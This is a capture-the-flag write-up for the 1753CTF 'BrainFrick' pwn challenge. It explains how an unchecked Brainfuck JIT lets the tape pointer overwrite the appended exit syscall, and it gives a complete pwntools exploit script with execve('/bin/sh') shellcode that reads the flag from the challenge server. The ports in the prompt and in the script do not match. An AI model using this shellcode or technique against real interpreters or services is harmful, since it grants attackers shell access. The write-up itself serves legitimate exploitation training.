 https://ctftime.org/event/2234/

# BrainFrick ~ PWN

Brainfuck is cool, but interpreters written in js are slow, we need performance!

nc 140.238.91.110 42303

https://dl.1753ctf.com/brain-frick?s=rfESHXpu

## Solution

We can see from the code in `brainfrick.cpp` that:

- If we supply brainfuck source code it will jit compiled into x64
- The data section, or tape, is directly after the code section
    - This means that rip will execute from the data section after the code section

We can see that the following sequence of bytes will be appended to our code:

```
const vector<byte> compiled_end = {
    0x48, 0xC7, 0xC0, 0x3C, 0x00, 0x00, 0x00, // mov rax, 0x3c
    0x0F, 0x05 // syscall (exit())
};
```

To prevent the program from exiting, and to start to execute the bytes in the data section, we must overwrite these bytes with the start of our shellcode.

In order to this we need to wind the data pointer back 9 bytes and modify the values of theose 9 bytes to be the first 9 bytes of our shellcode.

```
from pwn import *

REMOTE_IP = "140.238.91.110"
REMOTE_PORT = 36369

p = remote(REMOTE_IP, REMOTE_PORT)

p.readuntil(b"Enter your code:\n")

compiled_end = b"\x48\xC7\xC0\x3C\x00\x00\x00\x0F\x05"

shellcode = b"\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"

payload = b""
for i in range(len(compiled_end)):
    payload += b"<"

for i in range(len(compiled_end)):
    payload += b"+" * (int(shellcode[i]) - int(compiled_end[i]) & 0xff)
    payload += b">"

for b in shellcode[len(compiled_end):]:
    payload += b"+" * int(b)
    payload += b">"

p.sendline(payload)

p.clean()

p.sendline(b"/bin/cat /flag")

p.interactive()
```

## Flag
`1753c{bounds_not_checked_brain_is_a_frick}`
